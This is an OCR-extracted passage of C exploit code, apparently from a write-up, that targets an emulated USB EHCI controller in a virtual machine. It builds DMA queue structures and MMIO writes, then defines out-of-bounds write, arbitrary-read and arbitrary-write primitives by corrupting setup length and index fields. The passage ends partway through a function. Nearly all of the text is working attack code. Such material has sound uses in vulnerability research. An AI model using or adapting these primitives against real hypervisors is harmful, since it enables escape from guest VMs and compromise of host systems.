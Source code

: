 ```
    data_buf[4] = 'r';
    data_buf[5] = 'y';

    qtd-&gt;token = (0x1e00 &lt;&lt; 16) | (1 &lt;&lt; 7) | (1 &lt;&lt; 8);
    qtd-&gt;bufptr[0] = virtuak_addr_to_physical_addr(data_buf);
    qtd-&gt;bufptr[1] = virtuak_addr_to_physical_addr(data_bufoob);

    qh-&gt;token = 1 &lt;&lt; 7;
    qh-&gt;current_qtd = virtuak_addr_to_physical_addr(qtd);

    *entry = virtuak_addr_to_physical_addr(qh) + (1 &lt;&lt; 1);

    set_usbcmd();
    set_portsc();
    mmio_write(0x34,virtuak_addr_to_physical_addr(dmabuf));

    sleep(5);
`}`

void oob_write(uint64_t offset,uint64_t setup_len,uint64_t setup_index,int perpare)`{`
    if(perpare)`{`
        perpare_write();
        set_length(0x1010);
    `}`

    *(unsigned long *)(data_bufoob + offset) = 0x0000000200000002; // 覆盖成原先的内容
    *(unsigned int *)(data_bufoob + 0x8 +offset) = setup_len; //setup_len
    *(unsigned int *)(data_bufoob + 0xc+ offset) = setup_index;

    qtd-&gt;token = (0x1e00 &lt;&lt; 16) | (1 &lt;&lt; 7) | (0 &lt;&lt; 8);
    qtd-&gt;bufptr[0] = virtuak_addr_to_physical_addr(data_buf);
    qtd-&gt;bufptr[1] = virtuak_addr_to_physical_addr(data_bufoob);

    qh-&gt;token = 1 &lt;&lt; 7;
    qh-&gt;current_qtd = virtuak_addr_to_physical_addr(qtd);

    *entry = virtuak_addr_to_physical_addr(qh) + (1 &lt;&lt; 1);

    set_usbcmd();
    set_portsc();
    mmio_write(0x34,virtuak_addr_to_physical_addr(dmabuf));

    sleep(5);
`}`

void anywhere_read(uint64_t target_addr)`{`
    puts("\033[47;31m[*] Anywhere Read\033[0m");
    //set_length(0x1010);
    oob_write(0x0,0x1010,0xfffffff8-0x1010,1);

    *(unsigned long *)(data_buf) = 0x2000000000000080;

    uint32_t target_offset = target_addr - data_buf_addr;

    oob_write(0x8,0xffff,target_offset - 0x1018,0);
    oob_read(0x2000,0);
`}`

void anywhere_write(uint64_t target_addr,uint64_t payload,int flag)`{`
    puts("\033[47;31m[*] Anywhere Write\033[0m");

    uint32_t offset = target_addr - data_buf_addr;

```